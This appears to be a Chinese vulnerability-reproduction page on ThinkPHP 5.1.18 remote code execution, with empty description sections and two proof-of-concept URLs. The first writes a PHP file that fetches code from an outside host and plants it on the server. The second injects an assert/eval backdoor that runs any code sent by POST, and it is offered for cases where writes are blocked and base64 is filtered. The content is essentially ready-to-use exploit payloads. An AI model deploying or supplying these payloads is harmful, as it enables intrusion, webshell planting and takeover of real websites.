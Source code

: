 # Thinkphp 5.1.18

> 原文：[https://www.zhihuifly.com/t/topic/3157](https://www.zhihuifly.com/t/topic/3157)

# Thinkphp 5.1.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、常规poc

```
http://www.xxxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=index11.php&vars[1][1]=<?=file_put_contents('index_bak2.php',file_get_contents('https://www.hack.com/xxx.js'));?> 
```

### 2、所有目录都无写入权限,base64函数被拦截

```
 http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```